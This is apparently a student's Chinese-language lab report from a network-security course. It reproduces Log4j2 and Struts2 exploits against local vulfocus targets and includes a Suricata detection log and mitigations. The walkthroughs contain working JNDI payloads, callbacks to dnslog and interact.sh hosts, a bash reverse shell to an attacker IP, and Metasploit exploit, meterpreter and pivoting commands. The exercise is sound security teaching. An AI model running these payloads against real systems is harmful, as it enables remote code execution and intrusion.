# 2023网安暑期攻防实验记录

🚩**记录2023网安暑期攻防小学期实验**

- 课程Wiki：[2023年 - 传媒网安教学 Wiki (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-wiki/cp/2023/index.html)
- 课程视频：[[网络安全(2021) 综合实验]](https://www.bilibili.com/video/BV1p3411x7da?p=19&vd_source=640d60cfe2696fffb930fdf01e0aba1d)
- 视频配套课件地址:[网络安全 (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/漏洞原理详解)

## 一、实验环境

- kali版本：

  - ```
    Distributor ID: Kali
    Description:    Kali GNU/Linux Rolling
    Release:        2023.2
    Codename:       kali-rolling
    ```

- 网络：
  - 
  - Victim：**192.168.56.108**
  - Attacker：**192.168.56.109**

## 二、基本配置

```shell
# 确保使用 root 权限操作
sudo su -

# 养成良好配置习惯：备份配置文件
cp /etc/network/interfaces /etc/network/interfaces.bak

# 非交互式配置文件内容追加
cat << EOF >> /etc/network/interfaces
allow-hotplug eth0
iface eth0 inet dhcp
allow-hotplug eth1
iface eth1 inet dhcp
EOF

# 手动重启指定网卡
ifdown eth{0,1} && ifup eth{0,1}

# 配置 SSH 服务开机自启动
systemctl enable ssh

# 启动 SSH 服务
systemctl start ssh
```

- 查看ip：**192.168.56.108**
  - 
- 主机ssh连接：
  - 

## 三、docker配置

- 使用 `docker-compose` 一键搭建「漏洞练习环境」。

  **注意检查 docker-compose.yml 中定义的各个容器服务的监听端口** ，如果遇到端口占用冲突报错可以自行修改监听端口为其他本机可用端口。

  ```shell
  # 一次获取所有文件（包括所有子模块管理的文件）
  git clone https://github.com/c4pr1c3/ctf-games.git --recursive
  
  cd ctf-games
  
  # （可选）单独更新子模块
  git submodule init && git submodule update
  ```

- 安装docker和拉取镜像：

  - 

  - 在安装docker前应该先执行

    - ```shell
      apt-get update  
      apt-get upgrade
      ```

    - 不然可能会报错——“Package 'docker' has no installation candidate”

- 安装docker成功，查看docker版本：
  - 

- 拉取 vulfocus 镜像：
  - 

- 对 [fofapro/vulfocus](https://github.com/fofapro/vulfocus) 提供傻瓜式二次封装，启动方式简化为
  - 1.`bash start.sh`
    - 执行该命令要加sudo：
    - 
  - 2.选择对外提供访问 `vulfocus-web` 的 IP
    - 
  - 3.打开浏览器访问 admin / admin
    - 登录：
      - Usrname：admin 

      - Password：admin
  - 4.【镜像管理】-【镜像管理】-【一键同步】
  - 5.搜索感兴趣的漏洞镜像-【下载】
  - 6.镜像下载完毕后，【首页】，随时可以【启动】镜像开始漏洞攻防实验了

## 四、实验过程——漏洞复现

#### 漏洞攻击一般流程

- 1.找到靶标的【访问入口】

- 2.收集【威胁暴露面】信息

- 3.检测漏洞存在性

  - 确认受漏洞影响组件的【版本号】
  - 源代码审计——靶标环境漏洞源代码反编译

- 4.验证漏洞可利用性

  - 使用PoC手动测试**${jndi:ldap://0qxc3d.dnslog.cn/exp}**

    - 此处域名需要自己手动获取专属随机子域名

  - ```bash
    # 自行替换其中的靶标 URL 和  ldap 协议域名
    curl -X POST http://192.168.56.216:49369/hello -d payload='"${jndi:ldap://0qxc3d.dnslog.cn/exp}"'
    ```

  - ```shell
    git clone https://github.com/fullhunt/log4j-scan && cd log4j-scan
    
    # 如果没有安装过 pip
    sudo apt update && sudo apt install -y python3-pip
    
    pip3 install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
    
    # 修改 log4j-scan.py
    # 手动编辑
    # post_data_parameters = ["username", "user", "email", "email_address", "password"]
    # 替换为以下内容
    # post_data_parameters = ["username", "user", "email", "email_address", "password", "payload"]
    # 【或者】使用以下代码无脑替换
    sed -i.bak 's/password"/password", "payload"/' log4j-scan.py
    
    # 自行替换其中的靶标 URL
    python3 log4j-scan.py --request-type post -u http://192.168.56.216:49369/hello
    # [•] CVE-2021-44228 - Apache Log4j RCE Scanner
    # [•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
    # [•] Secure your External Attack Surface with FullHunt.io.
    # [•] Initiating DNS callback server (interact.sh).
    # [%] Checking for Log4j RCE CVE-2021-44228.
    # [•] URL: http://192.168.56.216:49369/hello
    # [•] URL: http://192.168.56.216:49369/hello | PAYLOAD: ${jndi:ldap://192.168.56.216.379o3109409t4u4rlr7972p9q103qt2zq.interact.sh/8tvw1m5}
    # [•] Payloads sent to all URLs. Waiting for DNS OOB callbacks.
    # [•] Waiting...
    # [!!!] Target Affected
    # {'timestamp': '2021-12-21T02:55:30.472289751Z', 'host': '192.168.56.216.379o3109409t4u4rlr7972p9q103qt2zq.379o3109409t4u4rlr7972p9q103qt2zq.interact.sh', 'remote_address': '219.141.176.26'}
    ```

- 5.评估漏洞利用效果

### 实验一、命令执行-Log4j2远程命令执行

**（CVE-2021-44228）**

#### 漏洞简介

Apache Log4j2 是一个基于 Java 的日志记录工具。该工具重写了 Log4j 框架，并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。 在大多数情况下，开发者可能会将用户输入导致的错误信息写入日志中。攻击者利用此特性可通过该漏洞构造特殊的数据请求包，最终触发远程代码执行。

#### 实验过程

- 启动靶机：
  - 

- 访问[192.168.56.108:51039](http://192.168.56.108:51039/)：
  - 

- 点击<u>?????</u>后：
  - 

##### 1.log4j2检测漏洞存在性——源码分析

虚拟机查看当前容器数量，会发现多了一台：

```shell
docker ps
```


进入当前的容器：

```shell
sudo docker exec -it youthful_satoshi sh
```

查找该容器的jar包：


将demo.jar拷贝到虚拟机中：

```shell
sudo docker cp youthful_satoshi:/demo/demo.jar ./
```


将jar文件用jd-gui分析：


可查看到源码的具体漏洞

```java
 /* 缺陷代码片段 */
    logger.error("{}", payload);
    logger.info("{}", payload);
    logger.info(payload);
    logger.error(payload);
```

##### 2.log4j2验证漏洞可利用性——DNSLog验证

测试该网站存在不存在Apache log4j2漏洞：

通过DNSLog平台（[http://www.dnslog.cn/](https://link.zhihu.com/?target=http%3A//www.dnslog.cn/)）


获取到域名http://0o9zuq.dnslog.cn，构造payload ${jndi:ldap://http://0o9zuq.dnslog.cn}

###### 命令行curl

```shell
curl -X POST http://192.168.56.108:54307/hello -d 'payload="${jndi:ldap://0o9zuq.dnslog.cn/exp}"'
```

###### 报错

这里报错**Request method ‘POST‘ not supported Method Not Allowed**

```
{"timestamp":"2023-07-22T09:29:59.402+00:00","status":404,"error":"Not Found","path":"/hello"} 
```


在网上查询了一下报错原因：[(100条消息) Request method ‘POST‘ not supported Method Not Allowed_cy谭的博客-CSDN博客](https://blog.csdn.net/zhan107876/article/details/111595338)

也在不同的虚拟机和不同电脑的虚拟机进行了实验，我认为应该是搭建的vulfocus现在的版本的问题，GET请求是可以正常进行的，curl也能成功访问到网站，但是不能用curl命令发送POST请求。

以下是使用Burpsuite手动发送POST请求👇

###### Burpsuite

使用Burpsuite进行抓包：


替换payload参数：


对替换部分的payload字段进行编码：


编码后再次发送请求包：


在DNSLog网站成功接收到解析记录：


##### 3.log4j2验证漏洞可利用性——log4j-scan

攻击者主机attacker上下载log4j-scan

```shell
git clone https://github.com/fullhunt/log4j-scan && cd log4j-scan
```

如果没有下载pip的话下载

```shell
sudo apt update && sudo apt install -y python3-pip
```

安装相关配置

```shell
pip3 install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple

# 修改 log4j-scan.py
# 手动编辑
# post_data_parameters = ["username", "user", "email", "email_address", "password"]
# 替换为以下内容
# post_data_parameters = ["username", "user", "email", "email_address", "password", "payload"]
# 【或者】使用以下代码无脑替换
sed -i.bak 's/password"/password", "payload"/' log4j-scan.py
```

修改 log4j-scan.py：


执行log4j-scan.py：

```shell
# 自行替换其中的靶标 URL
python3 log4j-scan.py --request-type post -u http://192.168.56.108:41510/hello
```


发现报错:

```
requests.exceptions.ConnectionError: HTTPSConnectionPool(host='interact.sh', port=443): Max retries exceeded with url: /register (Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x7f2c429f4310>: Failed to establish a new connection: [Errno -3] Temporary failure in name resolution'))
```

- 经过查询，发现该错误可能是因为：

  - http的连接数超过最大限制，默认的情况下连接是Keep-alive的，所以这就导致了服务器保持了太多连接而不能再新建连接。

  - 也可能是程序请求速度过快。

- 暂时还没有好的解救办法

##### 4. log4j2评估漏洞利用效果

攻击者主机attacker启动7777端口，等待受害者主机victim反弹回连getshell

```shell
nc -l -p 7777
```

受害者主机进入容器中并构造反弹shell的payload

```
bash -i >& /dev/tcp/192.168.56.109/7777 0>&1
```


攻击者可以窥探受害者主机：


得到flag：


###### JNDIExploit工具

攻击者主机attacker上下载[`JNDIExploit`工具](https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip)

```shell
wget https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip
```


下载不了我直接下载好了拖进去的）

解压

```shell
unzip JNDIExploit.v1.2.zip
```

计算下载工具包的哈希值


攻击者主机监听受害者主机的1389和8080端口

```shell
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.56.109
```


攻击者主机等待 victim 反弹回连 getshell：


受害者主机执行：

```shell
curl http://192.168.56.108:9495/hello -d 'payload=${jndi:ldap://192.168.56.109:1389/TomcatBypass/Command/Base64/'$(ech
o -n 'bash -i >& /dev/tcp/192.168.56.109/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}' 
```

报错：

```
{"timestamp":"2023-07-22T11:15:21.268+0000","status":405,"error":"Method Not Allowed","message":"Request method 'POST' not supported","path":"/hello"}
```


还是不能通过curl命令发送post请求到该ip地址上，所以导致不能执行后续操作，也不能得到通过该工具直接窥视受害者主机的效果

##### 5.log4j2漏洞利用检测

###### 基本方法

- 面向网络流量的深度包检测
- 运行时应用自我保护
  - Runtime Application Self-Protection (RASP)

###### 漏洞利用流量检测实战

```shell
# 启动靶机镜像
docker run -d --name log4shell -p 5555:8080 vulfocus/log4j2-rce-2021-12-09:latest

# 启动 suricata 检测容器
# 此处 eth1 对应靶机所在虚拟机的 host-only 网卡 IP
docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4

# 更新 suricata 规则，更新完成测试完规则之后会自动重启服务
docker exec -it suricata suricata-update -f

# 重启 suricata 容器以使规则生效
─(kali㉿kali)-[~/Desktop/ctf-games/fofapro/vulfocus]
└─$ sudo docker restart suricata
suricata

# 监视 suricata 日志
# 重复前述【漏洞攻击】实验
┌──(kali㉿kali)-[~/Desktop/ctf-games/fofapro/vulfocus]
└─$ sudo docker exec -it suricata tail -f /var/log/suricata/fast.log

07/24/2023-07:20:17.317100  [**] [1:2221034:1] SURICATA HTTP Request unrecognized authorization method [**] [Classification: Generic Protocol Command Decode] [Priority: 3] {TCP} 192.168.56.1:59471 -> 192.168.56.108:80
07/24/2023-07:20:17.318160  [**] [1:2221034:1] SURICATA HTTP Request unrecognized authorization method [**] [Classification: Generic Protocol Command Decode] [Priority: 3] {TCP} 192.168.56.1:59645 -> 192.168.56.108:80
07/24/2023-07:22:03.909195  [**] [1:2034647:1] ET EXPLOIT Apache log4j RCE Attempt (http ldap) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.56.109:57084 -> 192.168.56.108:56018
07/24/2023-07:22:03.909195  [**] [1:2034649:1] ET EXPLOIT Apache log4j RCE Attempt (tcp ldap) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.56.109:57084 -> 192.168.56.108:56018
07/24/2023-07:22:03.909195  [**] [1:2034700:1] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M2 (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.56.109:57084 -> 192.168.56.108:56018
07/24/2023-07:22:03.909195  [**] [1:2034757:2] ET EXPLOIT Apache log4j RCE Attempt (http ldap) (Outbound) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.56.109:57084 -> 192.168.56.108:56018
07/24/2023-07:22:03.909195  [**] [1:2034759:1] ET EXPLOIT Apache log4j RCE Attempt (tcp ldap) (Outbound) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.56.109:57084 -> 192.168.56.108:56018
07/24/2023-07:22:03.909195  [**] [1:2034800:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M2 (Outbound) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.56.109:57084 -> 192.168.56.108:56018
07/24/2023-07:22:03.909195  [**] [1:2034661:1] ET HUNTING Possible Apache log4j RCE Attempt - Any Protocol TCP (CVE-2021-44228) [**] [Classification: Misc activity] [Priority: 3] {TCP} 192.168.56.109:57084 -> 192.168.56.108:56018
07/24/2023-07:22:03.909195  [**] [1:2034783:2] ET HUNTING Possible Apache log4j RCE Attempt - Any Protocol TCP (Outbound) (CVE-2021-44228) [**] [Classification: Misc activity] [Priority: 3] {TCP} 192.168.56.109:57084 -> 192.168.56.108:56018
07/25/2023-06:39:02.610033  [**] [1:2022973:1] ET POLICY Possible Kali Linux hostname in DHCP Request Packet [**] [Classification: Potential Corporate Privacy Violation] [Priority: 1] {UDP} 192.168.56.108:68 -> 192.168.56.100:67
07/25/2023-06:39:06.685202  [**] [1:2210058:1] SURICATA STREAM suspected RST injection [**] [Classification: Generic Protocol Command Decode] [Priority: 3] {TCP} 192.168.56.108:47442 -> 192.168.56.1:58621
07/25/2023-06:39:06.934684  [**] [1:2210058:1] SURICATA STREAM suspected RST injection [**] [Classification: Generic Protocol Command Decode] [Priority: 3] {TCP} 192.168.56.108:47442 -> 192.168.56.1:58619
07/25/2023-06:39:06.934719  [**] [1:2210058:1] SURICATA STREAM suspected RST injection [**] [Classification: Generic Protocol Command Decode] [Priority: 3] {TCP} 192.168.56.108:47442 -> 192.168.56.1:58618
07/25/2023-06:40:32.558055  [**] [1:2100498:7] GPL ATTACK_RESPONSE id check returned root [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 192.168.56.108:46472 -> 192.168.56.109:7777
```


##### 6.log4j2漏洞利用防御与加固

下图为log4j2漏洞利用防御与加固

- 盾牌位置表视不同区域的防御方式
  - 如防火墙掐断如${jndi:ldap://edil.xs/x}等请求
  - 攻击代码如果到达日志程序，可以替换成无漏洞的框架
  - 或者是禁用jndi查询
- 多种方式防御log4j2 JNDI 攻击


### 实验二、跨网段多靶标渗透场景攻防

**CVE-2020-17530 Struts2**

#### 1.漏洞简介

> Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。在特定的环境下，远程攻击者通过构造 恶意的OGNL表达式 ,可造成 任意代码执行
>
> Apache Struts于2020年12月08日披露 S2-061 Struts 远程代码执行漏洞(CVE-2020-17530)，在使用某些tag等情况下可能存在OGNL表达式注入漏洞，从而造成**远程代码执行**，可能造成**控制服务器**等危害。S2-061是对S2-059沙盒进行的绕过

#### 2.场景安装与配置

网卡配置：


该场景需要3种漏洞镜像：`struts2-cve-2020-17530`、`weblogic-cve-2019-2725`、`nginx-php-flag`

下载三种漏洞，并按如下图摆放：


在容器中启动场景，查看相应的镜像信息：


会发现如刚刚搭建的一样，有一台`struts2-cve-2020-17530`、两台`weblogic-cve-2019-2725`、一台`nginx-php-flag`

#### 3.场景启动

- 进入【场景】，启动已经搭建好的 `dmz` 场景场景
- 我们需要访问的端口号为访问地址后端口号
- 访问地址：Victim IP：端口号
  - 
- 打开浏览器，输入 `靶机IP:端口号`
  - 

#### 4.捕获指定容器的上下行流量

```shell
# 建议放到 tmux 会话
#查看目标容器名称或ID
docker ps

container_name="<替换为目标容器名称或ID>"

docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```

> 为后续的攻击过程「分析取证」保存流量数据


#### 5.攻破靶标1

**Metasploit** 

>Metasploit是目前世界上领先的渗透测试工具，也是信息安全与渗透测试领域最大的开源项目之一。它彻底改变了我们执行安全测试的方式。
>
>Metasploit之所以流行，是因为它可以执行广泛的安全测试任务，从而简化渗透测试的工作。Metasploit适用于所有流行的操作系统，主要以Kali Linux为主。因为Kali Linux预装了 Metasploit 框架和运行在框架上的其他第三方工具。

**Metasploit 基础配置**

```shell
# 更新 metasploit
sudo apt install -y metasploit-framework

# 初始化 metasploit 本地工作数据库
sudo msfdb init
```


启动 msfconsole：

```shell
msfconsole
```



确认已连接 pgsql:

```shell
db_status
```


建立工作区:

```shell
workspace -a demo
```


search exp in metasploit:

```shell
search struts2 type:exploit
```


查看 exp 详情:可以直接通过搜索**结果编号**，也可以通过搜索**结果的 Name 字段**

```shell
info 2
```



**信息收集之服务识别与版本发现**

通过 vulfocus 场景页面看到入口靶标的开放端口:

```shell
db_nmap -p 18972 192.168.56.108 -n -A
```



继续完善搜索关键词:

```shell
search S2-059 type:exploit
```


使用上述 exp

```shell
use 0
```

查看 exp 可配置参数列表

```shell
show options
```


查看可用 exp payloads

```shell
show payloads
```


使用合适的 exp payload:

```shell
set payload payload/cmd/unix/reverse_bash
```


配置 exp 参数:确保所有 Required=yes 参数均正确配置

```shell
# 靶机 IP
set RHOSTS 192.168.56.108 
# 靶机目标端口
set rport 18972         
# 攻击者主机 IP
set LHOST 192.168.56.109

# 再次检查 exp 配置参数列表
show options
```


打靶：

```
exploit -j
```



如果攻击成功，查看打开的 reverse shell：

```shell
sessions -l
```



进入会话 1：

```shell
sessions -i 1
```


无命令行交互提示信息，试一试 Bash 指令：

```shell
id
```

在/tmp下得到flag

```shell
ls /tmp
# flag-{bmh9815fad5-6cb0-45f9-a8d0-8c0afa77330c}
```

提交flag，可查看当前进度20%


#### 6.建立立足点并发现靶标2-4

```shell
# upgrade cmdshell to meterpreter shell
# 也可以直接 sessions -u 1
search meterpreter type:post
use post/multi/manage/shell_to_meterpreter
show options
set lhost 192.168.56.109
set session 1
run -j

#查看会话
sessions -l
```



扫描28426 80 22 端口：

```
db_nmap -p 28426,80,22 192.168.56.108 -A -T4 -n
```



查看services：


查看hosts：

```shell
hosts
```



```shell
# 进入 meterpreter 会话 2
sessions -i 2

# setup pivot: run autoroute
# 查看网卡列表
ipconfig
```


```shell
# 查看路由表
route
```


```shell
# 查看 ARP 表
arp
```


```shell
run autoroute -s 192.170.84.0/24

# 检查 Pivot 路由是否已创建成功
run autoroute -p
```



退出会话2：

```shell
# portscan through pivot
search portscan
use auxiliary/scanner/portscan/tcp
show options
```


```shell
# 根据子网掩码推导
set RHOSTS 192.170.84.2-254
# 根据「经验」
set ports 7001
# 根据「经验」
set threads 10
```


`exploit` or `run`:



查看发现的服务列表，发现服务列表里有三台主机的ip，且状态为open

```
 services
```

